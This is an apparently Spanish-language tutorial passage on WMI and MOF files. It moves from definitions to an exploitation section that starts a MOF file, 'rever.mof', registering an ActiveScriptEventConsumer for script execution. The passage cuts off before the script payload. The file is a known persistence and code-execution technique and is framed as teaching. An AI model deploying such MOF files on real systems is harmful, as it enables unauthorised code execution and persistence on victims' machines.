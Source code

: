 __Ejemplo:__ Un proveedor de WMI puede proporcionar información sobre el hardware de una computadora, como la lista de discos duros y su capacidad.
Una vez que tus alumnos comprendan estas definiciones básicas, puedes introducir la relación con los archivos MOF:

<span style="color: orange;">Archivo</span> [MOF](https://learn.microsoft.com/en-us/windows/win32/wmisdk/managed-object-format--mof-?redirectedfrom=MSDN){:target="_blank"}:

__Definición:__ Un archivo MOF (Managed Object Format) es un archivo de texto que define la estructura y la información que un proveedor de WMI pone a disposición de los consumidores. Contiene las descripciones de las clases, propiedades y métodos que el proveedor ofrece para que los consumidores puedan acceder a los recursos o configurar el sistema.

__Relación con Consumidores y Proveedores:__ Los archivos MOF son utilizados por los proveedores de WMI para especificar qué información o funcionalidad están dispuestos a proporcionar a los consumidores. Los consumidores pueden utilizar estas definiciones MOF para comprender cómo interactuar con los recursos gestionados por WMI.

[recurso-blackhat-wmi.pdf](https://www.blackhat.com/docs/us-15/materials/us-15-Graeber-Abusing-Windows-Management-Instrumentation-WMI-To-Build-A-Persistent%20Asynchronous-And-Fileless-Backdoor-wp.pdf){:target="_blank"}

## <span style="color: yellow;">Explotación</span>


### <span style="color: orange;">Creación del archivo MOF</span>


Metasploit incluye un módulo de explotación denominado [webexec.rb](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/smb/webexec.rb){:target="_blank"}, el cual podemos utilizar como punto de partida para la creación de nuestro propio archivo MOF.
><p style="font-size: 16px;">NOTA: Es indispensable modificar el exploit y ajustarlo a tus necesidades.</p>

#### <span style="color: gray;">MOF file</span>
```ruby
  GNU nano 5.4                                                                                                                       rever.mof                                                                                                                         I      
#pragma namespace("\\\\.\\root\\cimv2")
class MyClass7910
{
        [key] string Name;
};
class ActiveScriptEventConsumer : __EventConsumer
{
        [key] string Name;
        [not_null] string ScriptingEngine;
        string ScriptFileName;
        [template] string ScriptText;
  uint32 KillTimeout;
};
instance of __Win32Provider as $P
{
    Name  = "ActiveScriptEventConsumer";
    CLSID = "{266c72e7-62e8-11d1-ad89-00c04fd8fdff}";
    PerUserInitialization = TRUE;
};
instance of __EventConsumerProviderRegistration
{
  Provider = $P;
  ConsumerClassNames = {"ActiveScriptEventConsumer"};
};
Instance of ActiveScriptEventConsumer as $cons
{
```